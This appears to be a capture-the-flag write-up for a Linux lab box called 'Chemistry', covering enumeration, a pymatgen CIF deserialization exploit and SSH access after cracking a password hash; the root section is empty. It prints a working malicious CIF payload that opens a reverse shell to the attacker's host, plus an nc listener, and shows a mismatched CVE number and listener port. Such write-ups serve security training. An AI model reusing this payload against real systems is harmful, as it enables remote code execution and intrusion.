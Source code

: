 # Chemistry - Linux(Easy)

## Summary

## Inital startup
Check that you have successfully connected to the VPN and you can reach the box.

```
openvpn lab_connection.ovpn
ping <target IP>
```

## Enumeration
Begin enumeration on the host by running an Nmap scan. 

```
sudo nmap -sC -sV <target IP>

-sC 
-sV Version Scan
```

![nmap](Images/nmap.png)

We can see that there appears to be a HTTP web page hosted on port 5000.

## Web Page Investigation
We can try connecting directly to the web page.
```
http://<target IP>:5000
```
We can access the site. This shows a CIF Analyzer with a Login/Register options.

![webPage](Images/webPage.png)

Next we can register and login to the site. This brings us to a CIF file upload page.

![WebDash](Images/WebDash.png)

Download the example CIF file available on the dashboard.

![exampleCIF](Images/exampleCIF.png)


## CIF Vulnerability
Next, we can check if there are any vulnerabilities associated with CIF files that we can use to gain access to the box.

Searching online and we find CVE-2024-2334 which can be used for 'Arbitrary Code Execution in Pymatgen via Insecure Deserialization'.
```
Reference: 
https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0
https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346
```
Using the example in the articles we can craft a payload that reaches back to our attacking machine.

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in
().__class__.__mro__[1].__getattribute__
( 
	*[().__class__.__mro__[1]]
	+
	["__sub" + "classes__"]
) () 
if d.__name__ == "BuiltinImporter"]
[0].load_module("os")
.system("/bin/bash -c \'sh -i >& /dev/tcp/<Attacking Machine IP>/4444 0>&1\'");
0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
Make sure that you are listening on your attacking machine with the port used in the shell commnad, in this case it is 4444.
You will also need to fill in your attacking machines IP (run ifconfig on your machine to find this).
```
SHELL
("/bin/bash -c \'sh -i >& /dev/tcp/<Attacking Machine IP>/4444 0>&1\'");

LISTENER
nc -lvnp 444
```
From here we can see the user flag on the user Rosa account. Unofrtunately, we do not have access to view/read the file.

![webShell](Images/webShell.png)


## User Flag

From here we can look through the machine for more potential information on the user Rosa.
Reading the app.py file we can see a reference to database.db
```
$ cd app
$ ls
app.py
instance
static
templates
uploads
$ cat app.py
```
![appPy](Images/appPy.png)

Reading the database.db file in the instance folder we can see the user Rosa referenced with a string of characters afterward. This appears to be a password hash.
```
$ cd instance
$ ls
database.db
$ cat database.db
```
![databaseDb](Images/databaseDb.png)

We can either try to crack the password hash locally using a tool such as JohnTheRipper.
Alternatively, I have used the site crackstation.net, which will check and see if they have the password for the provided password hash.

![crackStation](Images/crackStation.png)

Now we have the password for the rosa user account. We know from the nmap scan that SSH port 22 is open on the box.
We can try and access the box via SSH with the rosa account.
```
ssh rosa@<target IP>

cat user.txt
```
The login was successful. We can now read the user.txt file and obtain the user flag.

![rosaSSH](Images/rosaSSH.png)


## Root Flag

